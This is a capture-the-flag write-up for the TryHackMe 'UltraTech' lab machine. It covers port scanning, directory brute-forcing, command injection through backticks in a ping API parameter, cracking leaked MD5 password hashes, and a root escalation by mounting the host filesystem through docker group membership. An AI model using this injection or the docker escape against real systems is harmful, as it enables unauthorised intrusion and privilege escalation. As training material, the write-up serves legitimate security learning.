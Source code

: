 ```yaml
---
title : UltraTech - Writeup
---
```


_**Oct 06, 2020**_

[UltraTech](https://tryhackme.com/room/ultratech1) Writeup

## Nmap Scan :

```
bvr0n@kali:~$ nmap -sC -sV -p- 10.10.180.145

PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
8081/tcp  open  http    Node.js Express framework
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

## Directories Brute Forcing :

```
bvr0n@kali:~$ ffuf -c -u http://10.10.180.145:8081/FUZZ -w Documents/Dirbuster/wordlist.txt
auth                    [Status: 200, Size: 39, Words: 8, Lines: 1]
```
```
bvr0n@kali:~$ ffuf -c -u http://10.10.180.145:31331/FUZZ -w Documents/Dirbuster/wordlist.txt
.htaccess               [Status: 403, Size: 300, Words: 22, Lines: 12]
.hta                    [Status: 403, Size: 295, Words: 22, Lines: 12]
.htpasswd               [Status: 403, Size: 300, Words: 22, Lines: 12]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10]
favicon.ico             [Status: 200, Size: 15078, Words: 11, Lines: 7]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10]
index.html              [Status: 200, Size: 6092, Words: 393, Lines: 140]
javascript              [Status: 301, Size: 328, Words: 20, Lines: 10]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 6]
server-status           [Status: 403, Size: 304, Words: 22, Lines: 12]
```
In /robots.txt we found this :
```
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```
Goin to `/utech_sitemap.txt` give us this :
```
/
/index.html
/what.html
/partners.html
```

`/partners.html` seems to be a login page, inspecting the code source and checking what the API does, and this part caught my eyes :
```js
 function checkAPIStatus() {
        const req = new XMLHttpRequest();
        try {
            const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
            req.open('GET', url, true);
            req.onload = function (e) {
                if (req.readyState === 4) {
                    if (req.status === 200) {
                        console.log('The api seems to be running')

```
I tried going to `http://10.10.180.145:8081/ping?ip=10.10.180.145` , And it seems like Code Execution :
```
PING 10.10.180.145 (10.10.180.145) 56(84) bytes of data.
64 bytes from 10.10.180.145: icmp_seq=1 ttl=64 time=0.016 ms

--- 10.10.180.145 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.016/0.016/0.016/0.000 ms
```
I tried to execute other commands and it worked :
```
http://10.10.180.145:8081/ping?ip=10.10.180.145%20`whoami`
ping: www: Temporary failure in name resolution 

http://10.10.180.145:8081/ping?ip=10.10.180.145%20`ls`
ping: utech.db.sqlite: Name or service not known 
```

That file contained password hashes for 2 accounts : `admin` & `r00t`, Let's crack them using an [Online Tool](https://md5decrypt.net/) :
```
r00t : f357a0c******63c7c7b76c1e7543a32 : n****06 
admin : 0d0ea5111e3c1******c1684e3b9be84 : mr****fy 
```

When we login we get this : 
```
Restricted area

Hey r00t, can you please have a look at the server's configuration?
The intern did it and I don't really trust him.
Thanks!

lp1
```

## Internal Enum :

Since we have `r00t` credentials, Let's login to SSH.

After running id looks like we are in a docker :
```
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
```

We then check [GTFOBins](https://gtfobins.github.io/gtfobins/docker/) : 
```
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

This command won't work because there is no image named alphinen but we do have bash as image :
```
r00t@ultratech-prod:/tmp$ docker ps -a
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS                       PORTS               NAMES
aee9902a5c43        495d6437fc1e        "docker-entrypoint.s…"   19 minutes ago      Up 17 minutes                                    cocky_goodall
7beaaeecd784        bash                "docker-entrypoint.s…"   18 months ago       Exited (130) 18 months ago                       unruffled_shockley
696fb9b45ae5        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_varahamihira
9811859c4c5c        bash                "docker-entrypoint.s…"   18 months ago       Exited (127) 18 months ago                       boring_volhard
```
Executing this command give us root :
```
r00t@ultratech-prod:/tmp$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
root@41ff56823b91:/# id
uid=0(root) gid=0(root) groups=0(root),1(daemon),2(bin),3(sys),4(adm),6(disk),10(uucp),11,20(dialout),26(tape),27(sudo)
root@41ff56823b91:/#
```

Thank's [m3dsec](https://github.com/m3dsec) for the reference ;)

<br>
best regards

[bvr0n](https://github.com/bvr0n)


<br>
[back to main()](../../index.md)

<br>
